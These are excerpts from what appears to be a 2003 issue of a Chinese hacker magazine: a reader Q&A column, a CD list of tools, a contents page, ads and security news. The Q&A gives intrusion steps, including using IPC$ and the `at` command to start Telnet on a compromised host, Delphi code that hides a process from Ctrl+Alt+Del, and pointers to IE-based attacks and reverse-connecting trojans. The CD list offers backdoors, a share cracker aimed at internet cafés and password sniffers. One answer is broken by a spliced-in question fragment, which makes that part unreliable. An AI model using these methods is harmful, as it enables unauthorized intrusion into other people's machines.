看来老问题未解决，新问题又来了，这位菜鸟一定是在自己的机器上 net start 了……，当然 Telnet 不上去啦！大致介绍一下步骤：用 IPC$ 连接上以后，可以用 net time \\ip，获得服务器时间（如 11:18:00），过上几分钟，然后用 at 命令：at \\ip 11:20:00 "net start telnet" 即可。嘿嘿，详细步骤请看黑防过去的杂志，顺便做个广告。

——我是菜鸟我怕谁！我要黑谁就黑大战！

——谁这么嚣张啊！就你这小样，还能黑得下来？来？哈哈……

——大早的，IRC 就热闹起来了。

——各位高手，天还没亮呢！当然是黑的啦，我在睡觉呢！

——哦！原来 Heavyd 大虾在啊！我是小虾米啊，救救我吧！刚才我入侵一台主机，碰到一个问题，能帮帮我吗？

看到小虾米紧张、可怜的样子，我强打精神答应下来。一番问话，把问题弄清楚了：入侵成功时，由于屏幕没有任何显示，只能摸黑操作（难怪一大早就在说“黑”话！），怎么样才能打开回显呢？嘿嘿，像我这样有点入侵经验的大虾当然不在话下，但是……有条件的……在问小虾米强卖了两本《黑客防线》之后告诉他答案：

### Windows 2000 打开和关闭回显方法：

- 1. 进入 Telnet 状态，按 CTRL+]，相当于 ESC 键
- 2. 输入 set local_echo 即可打开回显
- 3. 输入 unset local_echo 即可关闭回显

——可我的系统是 Windows 98，怎么办？

——啊！我试试去……，等一等

唉，我都不用 Windows 98 很久了，问人去。啊啊，还是紫天星大哥有办法：

- 1. 打开 Telnet 窗口：在“开始”->“运行”中输入“telnet”
- 2. 选取菜单栏的“终端”项，选择“首选”功能。
- 3. 出现一个“终端首选设置”，选取“终端选项”的“本地响应”即可打开。反之关闭。

小虾米磕头谢恩后，乐呵呵地走了，壮士一去不复返……

滴滴……，QQ 一上线一位热心的读者给我打招呼，嘘寒问暖。嘻嘻……无事献殷勤，肯定有问题！在我的逼供下，终于说出了自己的问题（不就问问题嘛，有什么不好意思的，我是被问惯的了，谁叫我有魅力呢？）。原来，这位名叫木头的朋友（看样子就是傻傻呆呆的……嘿嘿），是在校学生，正在学习网络知识，最近打算在运行 Telnet Server 的机器上设置空闲会话超时，可一时想不起来怎么做了。瞧我这脑子！整天忙得晕头转向，我也给忘了！翻翻 tlntadmn 的帮助吧！呵呵，答案不就在眼前吗：

```text
tlntadmn [\\RemoteServer] config [timeout=hh:mm:ss]
```

参数

\\RemoteServer  
指定要管理的服务器名称。如果没有指定服务器，则假定使用本地服务器。

timeout=hh:mm:ss  
以小时、分钟和秒为单位设置超时时间段。

什么？还是不太明白……，好你个木头，今天是不是拿我开涮，今天就让你看看我的厉害：

```text
tlntadmn \\localhost config timeout=0:5:0 //设置超时时间为 5 分钟。
```

这时，木头终于开窍了，Heavyd 也该去睡觉了。

我们“编读互动”栏目自开办以来，收到不少热心读者的来信，有给我们提出建议的，也有是问在计算机学习方面碰到的问题的。下面是 dyj 读者的一封来信：

> 黑编好！
>
> 小弟是 Delphi 编程初学者，非常喜欢贵刊的“编程解析”栏目。对各位大侠佩服得五体投地，就如滔滔江水……废话就不多说了，向各位大侠学习，提个小问题：在 Windows 9x 系统中，在按下 Ctrl+Alt+Del 后，实现程序隐藏，用 Delphi 怎么实现？谢谢！

Bright：dyj 朋友的问题具有一定的代表性，这个……就把这个问题交给你了 Heavyd。

Heavyd：哦……  
（好在有点 Delphi 的底子，不过也有些时日没碰 Delphi 了，先闪人！只听见一阵电脑键盘啪啪狂响之后，Heavyd 自信地走出来了）

Heavyd：不好意思，刚才键盘被我弄坏了……

- 该问题的解决方法是把程序注册成服务进程，利用 RegisterServiceProcess 这个 API 函数就可以实现，在主程序中插入以下代码即可实现：

```text
implementation

function RegisterServiceProcess(dwProcessID, dwType: Integer): Integer; stdcall; external 'KERNEL32.DLL';
{$R *.DFM}

procedure FormCreate(Sender: TObject);
begin
  RegisterServiceProcess(GetCurrentProcessID, 1);
end;
```

网友 fzj-w 在《黑客防线》读者俱乐部 Linux 板块中提出：在安装 Red Hat Linux 7.3 时，遇到硬盘分区时不知怎样分区，就是不知 /（根分区）划分为多大为好，还有交换分区怎样划分？

劲刀狂舞：安装 Linux 的时候需要进行的硬盘分区对很多新手都是一个很头痛的问题。因为稍有不慎就会把硬盘数据弄丢了。不过，Red Hat Linux 8.0 的分区确实非常容易，使用 Red Hat Linux 8.0 提供的 Disk Druid 硬盘分区工具就能使用图形化的操作向导进行磁盘分区了。这里要提醒大家的是，要谨慎使用 automatic partitioning 自动分区模式，自动分区如果使用不当，就会破坏硬盘的 FAT，造成数据丢失。（笔者早期就因为没有注意到这个选项，而毁坏了硬盘中所有数据）。如果您对 Linux 磁盘分区不是很清楚，那么最好在使用 Disk Druid 之前能看一下相关的参考资料。

下面简单地介绍一下 Linux 各个分区的作用。大家都知道，Windows 下每一个分区都可用于存放文件，而在 Linux 则除了存放文件的分区外，还需要一个“Swap（交换）分区”用来补充内存，因此通常需要两个分区：

- 1. 主分区：学习使用的话，建议 4G；
- 2. 交换分区：只需 1-2 倍内存的大小，若 64-128M 内存，交换分区可为 128M，128-256M 内存，交换分区可为 256M。

由于早期的 Linux 启动器 LILO 无法识别 8G 以外的硬盘分区，因此建议将 Linux 两个分区分在 8G 以内。每个硬盘的逻辑第 1 扇区中存放着 MBR（主引导记录），这里就包括了主分区和扩展分区信息，当机器启动后，将引导交给硬盘时，就首先执行 MBR 上的程序，然后找到活动分区，启动操作系统。像 LILO、OS Loader 等多引导工具都是通过改写 MBR 来实现的。因此，当大家在安装完 Linux 后，将 LILO 写在 MBR 上，再安装 Windows，那么 MBR 就改写成为 Windows 的了。这里建议，先安装 Windows 再安装 Linux 系统。

> 一直以来都想着能为读者们编辑一些惊天地、泣鬼神的文章，但又一直以来从读者的反馈中觉得还是不太怎么尽人意，似乎技术原理类的都已经不再能引起共鸣了，惟有一些手把手教的流程类文章可以得到表彰！如果真是这样的话那也就算了，我也不用整天去鄙视某某杂志了……

我想大概是因为那些技术原理类的文章实在太严肃了吧？以至于本来就忙不过来的读者不爱看，毕竟都不喜欢在脑子杂乱的时候还要去领悟那些概念性的技术。大家在当这些技术是业余爱好的时候，当然还是爱好那些描写技术流程手把手教的那种！

就一门技术或一篇技术文章而言，对黑防方面：优化文章内容、加速读者理解力，按照编辑部和读者期望的进行。就编辑方面，不增加额外的工作量！毕竟每个人都有自己的私人生活空间要过！可要回报读者对我们的支持的时候，想方设法搜集整理编辑最有价值的文章才是硬道理……

苏樱

更正：2003 年第 3 期“宏病毒进阶剖析之探索、传染、消灭过程”一文，作者应为“Softbug”。

问：请黑编们救救我：“为什么我成功建立 IPC$ 连接后，不能使用 COPY 命令呢？”谢谢！

Fking：一般建立的都是空会话，所以没有相应的权限。不过可以连接远程注册表。如果要进行各种操作，必须知道一个 SYSTEM 或管理员的 ID 和密码。

问：我知道 NET 命令在 Windows 2000 中很好用，可我这儿的操作系统只有 Windows 98，每次用 NET 命令都不能用，不知道为什么？可是我知道有很多人都是利用 Windows 98 系统来学习入侵技术的，他们是怎么做的？

苏樱：Windows 98 的 Net 命令功能有限，通常使用 Windows 98 的用户，都是利用 IE 浏览器攻击，像 unicode、Null.idq、Null.ida、Null.htr、Null.htw、Sql Udp Buffer、Sql "SA" 等等，而且用 Windows 98 中的 Telnet 可以连接任何一台系统的服务器做跳板和二次攻击。

问：救救我吧！我的服务器是 Windows 2000 的操作系统，不知怎么回事，几乎所有的需要库文件的程序都不能用。我想通过改注册表（REGEDIT），也提示找不到相关库文件。我又不愿重装系统，请教我该如何是好？急救！谢谢！

Heavyd：你需要在注册表中修改一下 EXE 的键值。如果运行 .exe 提示找不到库文件，那么请检查一下你系统中有没有误删除一些 DLL 文件。如果是文件被删除掉了，你可以用 Windows 2000 的安装程序选择修复安装，很快就可以恢复系统。

问：我想学习自己编写一个扫描器或者是远程控制软件、后门等等的黑客程序，请问有快点的方法吗？

Fking：我们刚编写完一本《黑客编程手册》，这本书介绍了 TCP/IP 基础和 Winsock 编程方法，然后列举了很多黑客工具代码，给出代码分析并教会你如何写这些软件。

问：我的方正笔记本被无意中锁了 CMOS，忘记了密码，现在无法启动！该如何是好？

Bright：笔记本电脑的开机密码一旦遗忘会非常麻烦，它无法像台式机那样通过 BIOS 放电等方法解决。只能送厂家指定的维修点处理，而且可能会付出不小的代价。因此，建议笔记本设置开机密码以后一定要牢记密码。

问：我在打开信箱的一个 JPG 文件时，什么反应也没有？估计有人把 EXE 文件捆在 JPG 文件里，让我在打开图片时触发，他们是怎么做到的？

Fking：目前有现成的工具可以做到，也可能是直接把 .exe 改成 .jpg，让你访问。通常，有心人会把这类文件放到自己的 system32 目录下，让你访问 http://ip/admins$/hack.jpg，这样，你就中招了。如果是后门程序，就相当于利用 IE 的缺陷让你直接运行了这个 .EXE 文件。

问：我的服务器仅仅开了 80 端口，可还是被黑客入侵，这是为什么？

Bright：一般，入侵者会选择各种 CGI/IIS 漏洞扫描器，比如 X-Scan、流光、SSS 等等来对 HTTP 服务端口进行扫描。当然如果入侵者对脚本熟悉的话，也可以进行脚本分析，如果绕过验证的话，就基本成功了。

问：我想了解入侵者如何利用 445 端口入侵？这个端口开放有什么风险？

Heavyd：如果 Windows 2000 服务器允许 NBT（NetBIOS over TCP/IP），那么 UDP 端口 137、138，TCP 端口 139、445 将开放。如果 NBT 被禁止，那

问：我知道 NET 命令在 Windows 2000 中很好

么只有445端口开放，所以，入侵者通过空连接可以获得远程主机的信息而助于入侵。一般，在入侵者探测 NetBIOS 信息时，如果 139 端口关闭，从 445 端口也可以得到同样的信息。

问：请问，我知道 Windows NT Server 的口令，如何在远程登录？

Heavyd：如果这个口令是 Administrator 的，那么可以使用 Telnet、Terminal Service、IPC$ 等等方式，当然前提是在这些服务必须开放的情况下。

问：我玩网络游戏的时候，听说很多人对网络游戏进行修改，这是否是真的？他们是入侵了该游戏的服务器吗？

FKing：目前国内的网络游戏确实被一些玩家进行修改，但这是违法的。这种修改行为不一定是入侵了服务器，很多都是一种欺骗攻击。一般，他们会在 CMD 方式下运行 NETSTAT -an，查看当前 IP 信息。安装好 Sniffer 或 IRIS，配置好网卡，接着运行网络游戏登录界面，转换到 CMD 方式，再次利用 NETSTAT -an，看一下就可以得到游戏服务器的 IP 和端口，然后在 Sniffer 或 IRIS 中配置好游戏中使用的端口，接下来就可以截取数据包。不过，从游戏中抓的包很有可能是经过加密的，就算入侵者抓到了包并修改好，但也没办法通过服务器的验证。如果是入侵服务器，一般都是溢出攻击 SQL Server 服务器，然后修改了 SQL Server 中的游戏数据。但是这 2 种行为都是非法的，希望我们的读者不要去效仿。

问：我想请教一下，通过拨号方式直接上网的机器能否控制通过 IP 城域网方式上网的中了木马的机器。例如，A 通过拨号方式直接上网，B 通过 IP 城域网的方式上网，B 的 ISP 提供了 NAT 服务。如果 B 中了木马，A 能否控制 B？如果可以，是如何建立起 TCP/IP 连接的，其建立连接的过程如何？多谢了！

苏樱：根据我的理解，外网（有固定 IP）到局域网，是无法使用木马的（一般木马是通过对服务端扫描或者服务端信息反馈来实现与客户端连接的）。由于冰河、Netspy、广外女生等木马都是使用上述方法，所以它们无法实现客户端主动与服务器端建立 TCP/IP 连接来通过 LAN 的网关，即因为一般接入路由器、防火墙等，像你说的 ISP 的 NAT 服务器它都不会开反向的 NAT 转换。但如果运用“反弹端口”原理，由服务端主动连接客户端就可以实现连接了。

问：装了双系统后，如何让在一个系统中已经注册过的程序在另一个系统中能正确使用？

Bright：没有什么好办法，大多数时候你只能在另一个系统再重新安装一遍此程序，并重新注册，不过安装目录可以选择老目录，这样可节省部分硬盘空间。当然有些无需安装及注册的“绿色软件”，则可以在多个系统中直接使用。但也有一些软件这样安装以后在某个系统不能正常使用。

问：我单位局域网中大部分机器上网都很正常，可是有 2 台机器上网速度特别慢，机器的配置基本都一样，请帮忙解答。

Bright：由于可以上网，仅仅是网速慢，推断可能是双绞线制作问题。对 8 根 4 对双绞线的不正确联结使用，通常也会影响通信效果。在 10 Base-T 标准中，第 1、第 2 为一对线，第 3、第 6 是一对线。在一对线的传输中，由于线路是双绞的，会将涡流相互抵消，延缓数据信号的衰减。如果线路不正确使用，就起不到涡流抵消的双绞线作用，使传输距离和传输速度都打了折扣。如果双方为同样的线序，表明是接 Hub 的直联线。如果为 1、3、2、6 反接，则为双机直联线，又称为 Hub 级联线。你可以对照一下，看你们的线序是否正确。

劲刀狂舞：近期打开 QQ，很多网友都是抱怨 QQ 会非法退出，小编我也遭遇了几次非法操作。先是一个网名叫“陈三公子”的网友发来一个奇怪的消息，QQ 中显示一个手形状的标志，并做出胜利状。紧接着小编我的 QQ 就出现了非法操作，并被强制退出。无独有偶，在同一天又有一个陌生人发来类似的消息，同样我的 QQ 被炸了下来。当在我郁闷之余，好心的“陈三公子”又发来一个超级链接，文章的名字就是《致命代码克死 QQ 和泡泡——民间高手发布致命良方》。看过报道后，我恍然大悟，原来是这样：这段代码中 `\ts` 是用来设置文字的字体大小的，当其对文档中属性标示中的数字（如字体大小）等处理不当，字体大小数字串长度超过 32 字节时，就会引发缓冲区溢出，当超过 34 字节以后就有可能会导致应用程序出现非法操作。

> 最近有部分选择方案 2 的读者反映没有收到我们的礼包，并且询问《黑客编程手册》一书何时出版，什么时候可以收到。这儿，Bright 告诉大家，除了部分方案不详的读者外，其余读者的礼包已经在 2 月份全部寄出，《黑客编程手册》一书也将在 3 月中旬出版。希望没有收到礼包的读者赶快联系邮购部，对于确实还没有收到礼包的选择方案 2 的读者，我们将该书和你的礼包一起给你邮走。

Email：yougoubu@hacker.com.cn

## 光盘要目

### 杂志相关

- 针对 Sendmail 报头解析缓冲溢出缺陷补丁
- Office 2000 Cracker：用来破解 Office 2000 的 Word、Excel 等文件保密的密码。
- ExeScope：ExeScope 能在没有资源文件的情况下分析、显示不同的信息，重写可执行文件的资源，包括（EXE、DLL、OCX）等，是方便强大的汉化工具，可以直接修改用 VC++ 及 Delphi 编制的程序的资源，包括菜单、对话框、字串表等。
- ftpcrack：本书相关代码，用 Perl 写的 FTP 暴力密码破解脚本，需在 Perl 环境下运行。
- TRW2000：国内刘海涛的作品，比国外的 Soft-Ice 还要好，只可以在 Windows 9x/Me 下运行，目前不支持 Windows 2000/NT/XP。

### 后门软件

- HFilter：HFilter V0.10 Win32 ISAPI/Filter Backdoor V0.10 binary and Source code.
- T-Cmdv1.0：T-Cmd v1.0 beta，自动为远程/本地主机创建服务级后门，无须使用任何额外的命令，支持本地/远程模式。重启后，程序仍然自动运行，监听端口 20540/tcp。远程安装/卸载时，需提供管理员权限（Admin）的用户名及密码，若密码为空，请用“NULL”代替。
- hdoor：定制后门参数功能。运行 hdoor -config 更改默认设置，依次输入：你的控制密码、你的新后门的端口、你的新后门监听的 ICMP 包的大小，配置完成后，使用新生成的文件 New_HDoor.exe。

### 攻击程序

- EnableRAW：用于开启非 Administrator 权限的 RAW 原始套接字服务。
- lanxue-fucker：蓝雪入侵者 V1.00 BETA，搜索指定或者全部 C 类 IP 地址里的共享目录，然后进去看看，如有密码还可以破密码，10 秒内完成，完全自动，攻击网吧利器！
- Red Hacker：第三代 Red Hacker，进行了大量的技术革新，如：UDP 转移端口，攻击最新的 514 端口漏洞，还对本地攻击进行了根本调整。

### 其他软件

- CSDN：收集了 www.csdn.com 部分精华文章和代码。
- ca.asf：Hack 攻防录像－1
- cmdtool.asf：Hack 攻防录像－2
- command.asf：Hack 攻防录像－3
- dansnow.chm：小榕实验室 BBS 精华

### 扫描软件

- chickenhunter：网络肉鸡猎手 1.0
- nmap 3.10 for win：在 Windows 下运行，必须装有 WinPcap 才行，压缩包里有。自己安装好 WinPcap 驱动后，在 DOS 窗口下进入 nmap 目录，运行命令。
- sss5.41：Shadow Security Scanner 5.41 版，俄罗斯安全界非常专业的安全漏洞扫描软件，具有安全扫描、口令检查、操作系统检查等强大功能，支持在线升级。

### 嗅探工具

- SQLServerSniffer：用于局域网中获取 SQL Server 密码的嗅探器工具。
- ethereal-setup-0.9.6：一个开放源码的网络协议分析器，支持差不多 300 种常见协议的解码。
- SnifferPRO46：可以说是最好的嗅探器了，对网络管理员分析网络故障等极为有用。

### 远程控制

- icen050：IEen v0.50，利用微软 DCOM（分布式组件对象模型，一种类似 CORBA 的网络数据交换接口）通过 IE 远程控制的软件。
- NetOp Remote Control：这是世界第三大远控软件提供商 Danware 发布的远程管理软件。

### 加密解密

- ptrw103：Windows 9x 与 Windows Me 下的跟踪调试程序，跟踪功能更强。
- P-Ollydbg：一个新的动态追踪工具，将 IDA 与 SoftICE 结合起来的思想。
- FROGSICE：适用 SoftICE 4.00 以上版本，配合 SoftICE，以欺骗程序达到隐藏 SoftICE 目的。
- IDA：IDA Pro Advanced 是一个极好的反汇编工具，它大约胜过了 w32dasm。

### 硝烟尚未散尽，……

“……非智能雷弹，却多次已令人们上演片面战争攻防。”

### *Dolphen*“金海豚”网络动态防护系统

- 总编辑：孙彬
- 执行主编：郭聪辉
- 编辑：刘峰、苏樱
- guojpeng
- Heavyd
- 采编部主任：张馨
- 美编部：王凤
- 技术部：徐生震
- 发行部：杨贵兰
- 邮购部：王英

- 光盘刊号：CN15-9201/TP
- 编辑：黑客防线编辑部
- 出版：家庭电脑世界杂志社
- 制作公司：北京地海森波网络技术公司
- 通信地址：北京中关村邮局 008 信箱
- 邮政编码：100080
- 协办单位：北京寰海科技开发中心

- 技术支持电话：62141445-8004
- 投稿 E-mail：hacker@hacker.com.cn
- 问题解答 E-mail：answer@hacker.com.cn
- 网址：http://www.hacker-defence.com
- 发行部电话：62141446
- 发行部传真：62141360
- 邮购部电话：62141445-8011

- 常年法律顾问：北京风清律师事务所
- 王碧清律师
- 电话：13701229137
- 传真：（010）84510532
- E-mail：wangbiqing@163.com

本刊所刊登文章和图片归北京地海森波网络技术公司所有，未经许可不得转载。本刊作者发表的文章仅代表个人观点，与本公司无关。

国内定价：10.00 元人民币（光盘 + 说明书）

### 卷首语

## 业界动态

- ◇新闻动态

## 新品推荐

- 趋势科技 EPS II 引领企业无毒时代 ................................ 5
- 东软 Net Eye 网络安全新品发布 ................................ 5
- NP 技术护航网络 ................................ 5
- NetScreen 防火墙融合入侵检测系统 ................................ 5
- Nokia IP 系列防火墙：优秀功能的简便集成 ................................ 5

## 名家专访

- “理工先河”：网络安全中坚之路 ................................ 6

## 专题推荐

美伊战争引发黑客大战 ................................ 8

美军发动了海陆空三军对伊拉克进行大规模的进攻，伤亡无数，血流成河！同时，在另一个战场——Internet，美伊两国的黑客也进行了一场激烈的网络战，伊方黑客们以自己的方式表达人民的愤慨，对美国的主机进行了较大规模的破坏；另一方面，美方黑客也不甘示弱，进行了大规模的反击，伊拉克方面损失惨重。我们无意过多地讨论双方的网络战，而应从中找出自己的不足进行弥补。当然，作为热爱和平的每一位中国公民，都希望这场战争尽快结束，世界需要和平才能发展！

### 网管之家

- Windows 2000 服务的安装全攻略 ................................ 12
- Web 页面性能分析 ................................ 16
- 谁在用我的计算机
  - 浅谈 Windows 2000 下网络的有关安全问题 ...... 18

## 漏洞公告

## 案例分析

- LB5K 论坛 remmail.cgi 存在认证和过滤不严漏洞 .......... 25
- 分析从 FTP 发动的攻击 ................................ 28
- IIS 5.0 WebDAV 远程溢出漏洞全接触
  - IIS 5.0 又一严重新漏洞曝光 ........................ 32

## 病毒前线

- 最新病毒公告 ........................................ 36
- 如何将 RSA SecurID® 用于防范
  - “口令蠕虫”病毒 .................................... 37
- 蠕虫病毒遭遇战 ...................................... 39

## 编程解析

- 浅析 Windows 2000/XP 服务与后门技术 ................. 42
- 使用 ASP/VBS 调用 Google Web APIs
  - 开发自己的搜索引擎 ................................ 46
- 非法探取密码的原理及其防范 .......................... 50

### 安全方案

- Microsoft 操作系统远程安全管理实施方案 .............. 52

一个理想的远程管理方案首先一定是高效的。虽然在 UNIX 系统情况下，模拟终端命令行模式进行管理还是比较令人满意的。但是，使用这种方式来管理 Windows 远程服务是远远不够的，因为 Windows 是一个基于图形环境的操作系统，远程管理也应该使用一种图形方式实现。除了高效，远程管理还必须建立在安全的基础上。本文提出的这个解决办法不仅为用户提供鉴定，而且也保证被传送的数据的机密性和完整性。

- IPSec 穿越 NAT 的实现与应用 ........................ 58
- 诺顿网络安全特警 .................................... 60

### 编读互动

定价：35 元

## 内容提要：

《黑客防线精华本 2002》主要内容由《黑客防线》2002 年全年内容浓缩而成，经过编辑重新加工，按照文章内容和梯度进行了详细分类；全书内容通俗易懂，涵盖面广，突出实用，更加便于读者阅读、学习和研究。书中重点涉及了人物、专题、系统安全、服务器安全、数据库安全、网站安全、网管心得、案例、编程、工具、破解、病毒分析、网友交流等 20 个方面。

本书附赠 2 张配套光盘。光盘中包括书中涉及到的不便于书面印刷的所有代码和大量流行的经典工具、技术文档、系统最新补丁；更有价值的是收录了《黑客防线》原创全程攻防录像演示和 2001 年《黑客防线》精华本的电子版。

### 邮购信息

- 黑客防线秘笈（珍藏版） 1CD 28.00 元 / 期
- 黑客防线 2 到 7 期（珍藏版） 1CD 28.00 元 / 期
- 黑客防线 8-9 期（珍藏版） 2CD 28.00 元 / 期
- 黑客防线 9 上、9 下、10 上期 1CD 6.80 元 / 期
- 黑客防线 11—29 期 1CD 10.00 元 / 期
- 黑客防线之攻防工具详解 1CD 23.80 元 / 本
- 黑客防线精华本 2001 2CD 29.00 元 / 本
- 中国黑客内幕（6 折） 1CD 15.00 元 / 本
- 局域网络建维护 300 问 1CD 19.80 元 / 本
- 编程入门 2CD 25.00 元 / 本
- 趣味编程 100 例 1CD 16.00 元 / 本
- 服务器也 DIY 1CD 23.80 元 / 本
- ASP 轻松建站全攻略 1CD 19.80 元 / 本

汇款地址：北京市中关村邮局 008 信箱  
邮政编码：100080　收款人：《黑客防线》邮购  
热线电话：（010）62141446　62141445-8011  
E-mail：yougoubu@hacker.com.cn

## 超载...

欢迎全国各地区代理商、合作伙伴、系统集成商

### 2003 年黄金信用鼎牌安全强势开局

| HTi6100 | HTi6120 | HTi6150 | HTi6180 |
|---|---|---|---|
| VPN 网关 | 一部超级高效防攻击 | 一部超级安全功能型防攻击 | 防攻击型 VPN 网关 |
| HTi1000 | HTi1200 | HTi1500 | HTi1800 |
| VPN 网关 | 百兆级高效防攻击 | 百兆级安全功能型防攻击 | 标准百兆型防攻击 VPN 网关 |
| HTi2000 | HTi2200 | HTi2500 | HTi2800 |
| VPN 网关 | 线速级高效防攻击 | 线速级安全功能型防攻击 | 线速型防攻击 VPN 网关 |
| HTi4000 | HTi4200 | HTi4500 | HTi4800 |
| VPN 网关 | 千兆级高效防火墙 | 千兆级安全功能型防火墙 | 千兆级防攻击 VPN 网关 |

### 华堂网络安全防御系统特殊功能模块

| 代码 | 说明 | 缩写 | 说明 |
|---|---|---|---|
| M-K | 新增硬化接口（如串行口）模块 | VLAN | 支持多 LAN 虚拟划分 |
| HA | 双机多机集群模块 | IDS | 支持与标准型 IDS 联动 |
| SNMP | 支持 SNMP 协议模块 | LOG | 硬件加密日志审计模块 |
| QOS | 带宽管理模块 | AV | 支持与指定的邮件防病毒软件联动 |
| AR | 高级路由模块 | 99999 |  |

## 华堂网络密码机 / 华堂个人安全防御系统

| S/W-22 | 华堂磁视频线 | 华堂安全通道 | 华堂网络交换机 | 三合一接线 |
|---|---|---|---|---|

### 终端产品

地址：上海市复兴中路 593 号民防大厦 1409 室  
邮编：200020  
电话：（Tel）021-24028260　传真：（Fax）021-24028269  
http://www.netway.net.cn  
E-mail：marketing@netway.net.cn

如需索取资料请与华堂市场部接洽  
电话：021-24028260 转市场部  
E-mail：marketing@netway.net.cn

华堂客户服务中心  
地址：上海市淮海西路 442 弄 85 号（凯旋大厦）3201 室  
邮编：200052  
电话：021-62948125、62948126、62948127 转客户服务中心  
传真：021-32260439  
E-mail：support@netway.net.cn

### 逐鹿网安，步伐争先

2002年的网安市场可谓风起云涌，在IT大环境不景气的情况下，网安市场可谓一枝独秀，以超过50%的市场增长率继续保持高速增长态势。如此高速的增长当然吸引了众多的商家加入，300多家不同背景、不同出身、不同功力的厂商一同论道网安，各展拳脚。冷眼旁观，笔者却有不同理解，想给火热的网安市场泼盆冷水：网络安全产品在本质上不同于其他的软件产品，如没有深厚的技术积累为依托，严格按照软件工程学组织的研发和测试体系，采用例如OEM等方式走捷径，某些厂家甚至将“实验室级产品”匆匆投向市场，欲分得一杯羹，这种急功近利的做法不仅无法确保网安产品的稳定性和可靠性，也有悖于国家鼓励安全产品自主研发的良苦用心；此外，网安产品不具备所谓的“即插即用”的特性，如不能为用户提供完善的安装支持和连续的售后和升级服务，不但不能起到安全防范的作用，浪费用户的投资，将网安产品变成一堆昂贵的摆设，而且将成为新的安全隐患。目前国际上已经有了针对某些安全厂家的设备进行攻击的案例，所以笔者认为，行业和技术的积累、服务体系的完善将最终决定网安市场各方诸侯的成败。近期的网安市场热点之一的整体安全解决方案同样存在一定的误区，多数厂家的整体解决方案仅是产品的简单叠加，然后加上所谓的安全服务部分，而没有在分布实施、集中管理的原则下实现有机的产品整合，产生1+1>2的效果。

上海华堂网络有限公司

常务副总经理 聂伟国

记者近日走访在华东地区极具实力的网安专业厂商——上海华堂网络，其企业的带头人——聂伟国副总经理一席话验证了我们的想法，也向我们展现了一个成熟网安企业的风采。上海华堂是一家在国内网安市场上颇有些卓而不群色彩的厂家，在其他厂家密集广告宣传、四处铺点销售的情况下，华堂埋头于市场实践，充分了解细分用户群的需求，率先在国内完成了适合不同用户需求的防火墙和VPN全线产品，加上丰富的可扩展功能模块，构建了完整的网安解决方案。华堂用两年时间构建了覆盖目前所有销售区域的产品服务体系，以及摸索出完整的服务外延机制，在确保所有的华堂产品技术人员均通过严格的HTNSE/HTNSP的技术认证考试，才有资格为用户提供专业服务的同时，也保证了销售区域的拓展不会影响服务质量。用聂总的话来讲：产品未到，服务先行。虽然华堂网络的销售增长率远高于行业平均水平，虽然整个行业浮躁的心态盛行，虽然市场机会接踵而来、各地希望合作的商家众多，但华堂仍然不急不躁地完成自己的市场部署，以服务先行，以技术为基础，组建专业的网络安全服务队伍。在完成优势区域的市场实践后，作为在全国范围内的网安先行者，华堂已经将目标转向全国市场。仍然引用聂总的话：我们要稳健地迈向看得见的未来。

网安市场的竞争不是百米冲刺，而是一场长跑竞赛，起跑的快速固然可以抢占一定的先机，加速能力（技术）和耐久力（服务）方是决定这场角逐的决定要素。2003年的网安大戏已经开锣，作为网安市场专业媒体，我们将密切关注这场没有硝烟的战斗，让我们拭目以待。

## Windows Server 2003关键安装代码在网上泄漏

微软的Windows Server 2003还未发行，其一个关键性安装代码已经在网上泄漏，这一事件将有可能引发大规模的盗版行为。微软公司的一名发言人证实了这一消息，并指出微软正就此事进行调查。这一事件的发生距微软4月24日正式推出Windows Server 2003还有不到两周的时间。

微软发言人称，上述代码可能是从微软公司的一家注册用户泄漏出去的。而据一些网站报道，泄漏出去的是一种三合一代码，也就是说该代码在Windows Server 2003的三个版本中同时使用。微软发言人则进一步明确地指出，微软将尽全力在网上寻找外泄的代码。她说：“公司的法律事务部门正就此事进行全力调查。”通常情况下，被窃的代码一般会在一些网站、新闻群组或互联网在线聊天系统中进行交易。

此次代码被窃事件为Windows Server 2003的推出蒙上了一层阴影，此前该软件的发布已经三度被推迟。微软希望通过这一新品增加自己在企业软件市场拥有的份额。但是此类事件的发生表明，微软在保护自己的知识产权方面还面临着很多困难。

分析人士称，外泄代码的使用可以分为两个步骤，第一是用于软件安装，第二步则是通过互联网与微软一起正式激活使用软件，正是这第二个步骤可能会为微软带来麻烦。

### 千兆防火墙评测结果

防火墙测试规范的形成一直是国内信息安全评测领域的焦点，赛迪评测进行防火墙评测的依据是赛迪评测《防火墙测试规范》。测试内容包括管理测试、功能测试、性能测试以及抗攻击能力测试四个方面，均由赛迪评测网络通信实验室独立完成。之所以选择以上四个方面，主要因为，管理是网络安全的关键，功能是防火墙应用的基础，性能保证了网络的传输效率，而抗攻击能力是网络安全的保证。

从2002年11月初开始，8家厂商报名参加了测试，其中4款防火墙产品顺利通过了历时1个月的严格测试，并被授予相应奖项。北京海信数码科技有限公司海信FW3010PF-5000千兆防火墙、北京天融信网络安全技术有限公司天融信TOPSEC防火墙4000都荣获聪明买家奖；联想集团有限公司联想网御2000千兆防火墙荣获技术创新奖；西安交大捷普网络科技有限公司西安交大捷普F3000千兆防火墙荣获工程师推荐奖。本次评测得到了厂商和用户的普遍好评，参会嘉宾一致认为，赛迪评测此次组织的千兆防火墙评测活动，对于推动国内千兆防火墙市场的健康发展起到了积极的作用。

## 黑客使用Java applet完全控制用户的PC

微软公司发布安全公告称，其软件中发现3个新的安全缺陷，最严重的一个安全缺陷允许黑客使用Java applet完全控制用户的PC。

这三个安全缺陷包括微软公司的在Windows上运行Java applet的Java虚拟机、Windows 2000和Windows NT的一个组件中的跨站点脚本缺陷，以及影响Proxy Server 2.0和ISA Server的拒绝服务攻击（DoS）。包括这三个安全公告在内，微软公司今年已经发布了12个安全公告。

虚拟机（VM）缺陷是最严重的，被微软公司标为“危急”级别。大多数版本的Windows以及一些版本的IE中都包含有VM，它能够运行使用Java编写的被称为applets的小软件。当applets加载时，一个名为ByteCode Verifier的VM组件不能检测出恶意代码，这意味着黑客可以在用户的PC中塞入恶意代码。恶意applets能够使黑客在PC上运行自己的代码，进行包括从删除硬盘文件到安装使PC在未来受到攻击的“后门”在内的任何操作。

### 海信数码东营网络安全研讨会胜利召开

国内知名的网络安全厂商在东营举办了“东营市第二届网络安全研讨会”，东营市信息产业局马洪勇局长和王志安副局长纷纷出席了会议，并在会上做了发言。

本次网络安全研讨会得到了市领导的高度重视。随着电子政务的发展，山东省是国内的重点实施省份，网络安全是电子政务实施的重中之重，海信数码作为国内网络安全知名厂商和安全专家，受东营市政府的邀请和委托，为本次会议的领导和嘉宾进行了安全讲座。

